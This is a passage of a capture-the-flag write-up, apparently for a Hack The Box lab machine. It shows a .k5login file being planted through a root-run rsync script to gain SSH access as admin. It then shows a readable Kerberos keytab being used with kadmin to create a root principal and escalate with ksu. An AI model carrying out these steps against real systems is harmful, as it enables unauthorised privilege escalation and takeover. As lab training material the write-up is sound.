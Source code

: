 vulnerability to write a .k5login file to /home/admin and obtain access as the admin user.

We issue the below command to write .k5login file to /var/log/squid folder

```
#!/bin/bash
```

```
/usr/bin/rsync -avz --no-perms --no-owner --no-group /var/log/squid/ /home/admin/
cd /home/admin
/usr/bin/tar czf squid_logs.tar.gz.`/usr/bin/date +%F-%H%M%S` access.log cache.log
/usr/bin/rm -f access.log cache.log
```

```
echo "j.nakazawa@REALCORP.HTB" > /var/log/squid/.k5login
```

After a minute we can login to SSH as admin user.

## Privilege Escalation

By further enumerating the system, we find that the /etc/krb5.keytab file is owned (and readable) by the\
admin group.

We list the principals in the keytab file issuing the below command.

The kadmin/admin@REALCORP.HTB principal is included in the keytab. This allows us to run kadmin with\
admin privileges and create the root@REALCORP.HTB principal.

```
klist -kt /etc/krb5.keytab
```

```
kadmin -kt /etc/krb5.keytab -p kadmin/admin@REALCORP.htb -q "add_principal -pw test root@REALCORP.htb"
```

We switch to root user using ksu utility. We provide test when prompted for the password.

## References

* [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#linux-active-directory](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#linux-active-directory)
